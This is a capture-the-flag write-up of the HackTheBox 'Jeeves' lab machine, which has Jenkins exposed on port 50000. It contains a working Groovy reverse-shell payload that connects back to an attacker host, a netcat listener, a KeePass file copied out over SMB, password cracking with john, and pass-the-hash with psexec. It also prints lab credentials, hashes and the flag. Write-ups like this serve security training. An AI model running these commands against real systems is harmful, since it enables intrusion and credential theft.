

# Jeeves -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Jeeves (HackTheBox)
**Author:** dsec
**Date:** 2025-10-30

---

## TL;DR

### Jenkins on port 50000 via Jetty. Script console gave shell, KeePass DB cracked with john, pass-the-hash with psexec for admin. Root flag hidden in an alternate data stream.
---
## Target info

- Host: `10.129.208.228`
- Services discovered: `80/tcp (http)`, `135/tcp (msrpc)`, `445/tcp (microsoft-ds)`, `50000/tcp (http/Jetty)`
---
## Enumeration

Nmap results:

```
80/tcp    open  http       Microsoft IIS httpd 10.0
135/tcp   open  msrpc      Microsoft Windows RPC
445/tcp   open  microsoft-ds
50000/tcp open  http       Jetty 9.4.z-SNAPSHOT
```

Ran feroxbuster against port 50000:

```bash
feroxbuster -u http://10.129.208.228:50000/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
```

Found `/askjeeves` -- a Jenkins instance.



---
## Initial foothold

Used the Jenkins Script Console to get a reverse shell with Groovy:

```java
String host="10.10.14.46";
int port=6969;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
nc -lvnp 6969
```

Got a shell as `kohsuke`.

---
## Lateral movement

Found `CEH.kdbx` in `C:\Users\kohsuke\Documents`. Exfiltrated via SMB:

```bash
smbserver.py Folder pwd
```

```
C:\Users\kohsuke\Documents> net use s: \\10.10.14.46\Folder
C:\Users\kohsuke\Documents> copy CEH.kdbx s:
```

Cracked the KeePass database:

```bash
keepass2john CEH.kdbx > keepass.hash
john keepass.hash -w:/usr/share/wordlists/rockyou.txt
```

Password: `moonshine1`

Inside the database, the "Backup stuff" entry contained an NTLM hash:

```
Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

Other entries included DC Recovery PW (`administrator:S1TjAtJHKsugh9oC4VZl`) and various other credentials, but the hash was the key.

---
## Privesc

Pass-the-hash with psexec:

```bash
psexec.py JEEVES/administrator@10.129.253.173 -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
```

Got admin shell. The root flag was hidden in an alternate data stream:

```
c:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere. Look deeper.

c:\Users\Administrator\Desktop> dir /r
  34 hm.txt:root.txt:$DATA

c:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc5bd4b615a60648cec41c6ac92530
```

---
## Lessons & takeaways

- Jenkins Script Console is an instant shell if accessible
- Always check for KeePass databases -- they often store domain creds
- Use `dir /r` to find alternate data streams on Windows
- Pass-the-hash with psexec is reliable when you have NTLM hashes
---
